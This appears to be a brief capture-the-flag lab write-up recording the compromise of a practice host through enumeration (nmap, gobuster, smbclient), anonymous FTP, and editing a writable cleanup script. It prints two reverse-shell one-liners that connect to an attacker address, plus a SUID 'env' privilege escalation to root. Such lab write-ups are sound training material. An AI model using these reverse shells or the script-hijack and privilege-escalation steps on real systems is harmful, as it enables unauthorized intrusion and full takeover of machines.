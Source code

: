NMAP:
- ftp, ssh, smb, 49175 -- unknown filtered

GOBuster:
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db

smbclient -L 10.10.153.36

| 		 | 			                                                           |
|   ---   |---------------------------------------------------------------|
	| Sharename   | Type                                                          |   Comment  |
	| print$    | Disk                                                          |   Printer Drivers |
	| pics      | Disk      My SMB Share Directory for Pics                     |
	| IPC$       |      IPC       IPC Service (anonymous server (Samba, Ubuntu)) |
SMB1 disabled -- no workgroup available


ftp --
ftp - anonymous
scripts --> clean.sh, removed_files.log, to_do.txt

clean.sh is a bash script that automates deleting files. 
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

almost definitely way in 

-- edit it, add a reverse shell, gain foothold
```
vim ftp://anonymous@ip//scripts/clean.sh  --> didnt work

lftp anonymous@10.10.153.36:/scripts edit clean.sh --> worked
```

tried:
bash -i >& /dev/tcp/10.13.5.104/4443 0>&1

didnt work, added:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4444 >/tmp/f --> worked

ls --> user.txt --> flag

find . -perm /4000 
 - /usr/bin/env stood out --> GTFOBins --> SUID privesc
```
./env /bin/sh -p
```
cd /root --> cat root.txt --Finished!